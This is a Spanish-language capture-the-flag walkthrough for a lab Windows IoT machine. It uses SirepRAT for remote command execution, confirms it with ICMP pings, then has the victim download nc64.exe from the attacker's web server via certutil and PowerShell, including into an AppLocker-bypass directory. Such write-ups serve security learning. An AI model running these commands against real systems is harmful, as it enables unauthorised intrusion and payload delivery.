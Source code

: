 Aqui vemos que podemos leer archivos del systema. Intentamos ejecutar comandos.

Nos ponemos en escucha por trasa ICMP

```bash
tcpdump -i tun0 icmp -n
```

y ejecutamos el comando

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.8" --v
```

Aqui vemos que recibimos la traza y que tenemos capacidad de ejecucion remota de comando.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con SirepRAT {-}

1. Descargamos nc64

    ```bash
    wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
    ```

1. Creamos un servidor web con python

    ```bash
    python3 -m http.server 80
    ```

1. Intentamos descargar el binario desde la maquina victima

    ```bash
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\Windows\Temp\nc64.exe" --v
    ```

Aqui vemos que no a pasado nada y que no hemos recibido ningun GET a nuestro servidor python.

Miramos si funcciona usando un directorio [applocker](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe" --v
```

No funcciona. Intentamos con Powershell

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "powershell" --args " /c iwr -uri http://10.10.14.8/nc64.exe -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe" --v
```
